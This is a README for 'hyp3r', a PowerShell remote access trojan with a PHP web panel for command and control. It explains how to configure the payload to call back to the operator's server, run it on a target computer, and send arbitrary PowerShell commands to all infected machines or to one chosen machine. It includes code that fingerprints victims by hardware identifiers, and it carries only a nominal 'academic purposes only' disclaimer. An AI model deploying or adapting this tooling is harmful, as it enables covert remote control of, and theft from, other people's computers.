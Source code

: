 # hyp3r

<hr>

### hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

        ```
	
        $verurl = 'http://your_website_url_or_ip/script.txt'
        $url = 'http://your_website_url_or_ip'
        $stop = 'the syntax of your choice to force stop the payload on the target machine'
	
        ```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
        ```
        [System.Console]::Beep(1000,300)
        ```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

        ```
        if($env:COMPUTERNAME -eq "TARGET-PC") {
          echo "now it will only be executed by targets with the user TARGET-PC"
        }
        ```
  - If the COMPUTERNAME identifier is way to simple and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer

        ```
        $a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
	      $b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
	      $c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
        $ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
        if($ids -eq "UNIQUE_IDENTIFIER") {
          doStuff()
        }
        ```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
